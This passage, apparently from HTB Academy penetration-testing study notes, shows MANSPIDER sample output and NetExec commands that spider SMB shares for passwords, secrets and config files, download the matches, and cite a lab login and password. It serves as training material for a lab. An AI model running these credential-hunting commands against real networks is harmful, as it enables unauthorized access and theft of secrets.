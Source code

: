 #### MANSPIDER Output Analysis
```bash
# Output files location
/root/.manspider/loot/

# Example output
[+] 10.129.234.121: Successful login as "mendres"
[+] Found file matching pattern: \\10.129.234.121\IT\config\database.ini
[+] Found file matching pattern: \\10.129.234.121\Finance\scripts\backup.ps1
[+] Downloaded: /root/.manspider/loot/database.ini
[+] Downloaded: /root/.manspider/loot/backup.ps1
```

### 2. NetExec Spider - Integrated Share Crawler

#### Basic NetExec Spider Usage
```bash
# Step 1: Enumerate available shares and permissions
netexec smb TARGET_IP -u username -p password --shares

# HTB Academy example:
# netexec smb 10.129.232.180 -u mendres -p 'Inlanefreight2025!' --shares
# Expected output shows READ access to: Company, HR, IT, NETLOGON, SYSVOL

# Step 2: Basic spider scan for password patterns
netexec smb TARGET_IP -u username -p password --spider SHARE_NAME --content --pattern "password"

# Search multiple patterns
netexec smb TARGET_IP -u username -p password --spider SHARE_NAME --content --pattern "password|secret|key"

# Target specific file extensions
netexec smb TARGET_IP -u username -p password --spider SHARE_NAME --pattern "\.ini$|\.cfg$|\.xml$"

# Exclude certain directories
netexec smb TARGET_IP -u username -p password --spider SHARE_NAME --exclude-dirs "Windows,Program Files"
```

#### Advanced NetExec Spider Options
```bash
# Set maximum file size for content searching
netexec smb TARGET_IP -u username -p password --spider SHARE_NAME --content --pattern "password" --max-file-size 1048576

# Include hidden files
netexec smb TARGET_IP -u username -p password --spider SHARE_NAME --hidden

# Download matching files
netexec smb TARGET_IP -u username -p password --spider SHARE_NAME --pattern "config" --download

# Search with depth limit
netexec smb TARGET_IP -u username -p password --spider SHARE_NAME --depth 3

# Regex pattern matching
netexec smb TARGET_IP -u username -p password --spider SHARE_NAME --regex --pattern "password\s*=\s*['\"][^'\"]+['\"]"
```
